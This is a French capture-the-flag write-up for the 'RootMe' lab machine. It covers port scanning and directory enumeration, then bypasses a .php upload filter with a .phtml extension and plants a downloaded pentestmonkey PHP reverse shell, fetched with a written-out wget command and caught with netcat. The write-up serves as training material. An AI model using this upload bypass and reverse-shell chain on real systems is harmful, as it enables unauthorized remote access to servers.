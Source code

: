# 002_RootMe


## Ping de la cible

![image](https://user-images.githubusercontent.com/121682396/211824852-55babf40-963d-418f-9917-1d6e2959d49d.png)


## Ajout de l'ip dans le fichier /etc/hosts

![image](https://user-images.githubusercontent.com/121682396/211825307-26a093cf-c5c4-4e23-a499-dfd9f4e3b3c7.png)


## Trouver les ports ouverts et service qui tournent avec les versions

![image](https://user-images.githubusercontent.com/121682396/211826027-00d46ce2-6d7a-4b6c-9933-c75b4c5d1541.png)

     sV : Tente d'identifier la version du service


## Trouver les repértoires cachés sur le serveur web

![image](https://user-images.githubusercontent.com/121682396/211826966-3294df67-d799-4a16-9cb1-b184470cb535.png)

    dir : pour les repértoires 
    -w : pour la wordlist à utiliser
    -u : pour l'URL

Nous avons trouvés 2 répertoires <b>/uploads</b> et <b>/panel</b>

![image](https://user-images.githubusercontent.com/121682396/211829190-82496322-dc40-41a1-9b79-e82e5ade5bcc.png)
![image](https://user-images.githubusercontent.com/121682396/211829245-133f7358-68b3-4553-a2f9-9a64111c757c.png)

Nous voyons que nous pouvons uploader des <b>fichiers/images<b/> sur le path <b>/panel.</b>

Ici, notre obectif est d'injecter un <b>fichier PHP</b> et de l'éxécuter pour <b>récupèrer un shell</b> sur la machine.

C'est la cible qui ouvrira un shell vers notre machine ==> on appelle cela un <b>REVERSE SHELL</b>   

- On va éssayer de voir si l'extension .php peut être uploader

  ![image](https://user-images.githubusercontent.com/121682396/211833573-531bf32c-ff15-4a66-a469-ac7312dac2d4.png)
  On voit que l'extension <b>PHP</b> n'est pas accepté

- On voit que le développeur à bien filtré les fichiers uploadés en refusant les extensions en <b>.php</b>.

  Mais a t-il pris en compte les extensions alternatives valide pour exécuter du PHP comme sur l'image ci-dessous?

  ![image](https://user-images.githubusercontent.com/121682396/211835745-d9eac74d-5beb-483b-b98f-4733eea27820.png)

  Nous allons essayer d'uploader un fichier en essayant chacunes des extensions suivantes jusqu'à que cela fonctionne 
  
  Nous avons essayer l'extension <b>.phtml</b> et BINGO !!
  
  ![image](https://user-images.githubusercontent.com/121682396/211871058-dc716343-b2c2-4cf9-b65d-8e2e4369712d.png)
  
  Il ne manque plus qu'à récupèrer un reverse shell en php pour l'inclure dans notre fichier en .phtml

  Nous avons un repo GITHUB très connu qui est PENTESTMONKEY où nous avons un reverse-shell php que nous pouvons récupèrer et modifier au niveau de l'ip et du port
  
  ![image](https://user-images.githubusercontent.com/121682396/211871956-c01c56f1-6bcd-4889-8945-6761fa14f574.png)

      wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
      
      on change l'extension du fichier en .phtml
      
      on Modifie l'ip avec notre IP côté attaquant et le numéro de port avec un port au choix (on peut laisser comme il est)
      
      on upload le fichier reverse-shell.phtml sur le path /panel
      
      on ouvre le port d'écoute (du fichier reverse-shell) sur notre machine attaquant avec netcat.
      Netcat est un outil permettant d'ouvrir des connexions réseau
     ![image](https://user-images.githubusercontent.com/121682396/211876392-1967ff52-2158-475a-8ddb-df9ecb95a274.png)
      
      on ouvre le path /uploads et clic sur notre fichier uploader pour l'exécuter 
      
      Et voilà notre terminal est connecté à la machine cible et  toutes les commandes qu'on tapent seront exécutées maintenant
      sur la machine cible !!
     ![image](https://user-images.githubusercontent.com/121682396/211877071-bed59d3e-6895-423f-b37e-76597f59dba3.png)
